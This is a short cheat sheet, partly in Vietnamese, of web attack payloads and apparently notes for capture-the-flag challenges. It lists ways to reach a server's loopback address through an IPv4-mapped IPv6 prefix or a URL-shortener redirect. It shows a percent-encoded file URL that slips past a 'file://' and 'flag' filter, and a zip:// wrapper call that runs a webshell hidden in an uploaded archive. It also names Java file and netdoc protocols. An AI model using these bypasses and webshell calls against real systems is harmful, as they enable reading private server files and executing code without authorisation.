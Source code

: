 # ::ffff:127.0.0.1 : 
* ::ffff: là tiền tố (prefix) đặc biệt dùng để ánh xạ địa chỉ IPv4 vào không gian IPv6.

Redirect ip address: https://tinyurl.com/

Bypass startwith('file://') or "flag" in url: <file:///fl%61g.txt>

zip:// protocol with the uploaded Zip File, including a compressed Webshell file; then call the Webshell in the compressed package through the zip:// protocol, and the link to access this Webshell
> ?fp=zip://uploads/fe5e1c43e6e6bcfd506f0307e8ed6ec7ecc3821d.png%231&shell=phpinfo();


# Java protocol
* file://
* netdoc://
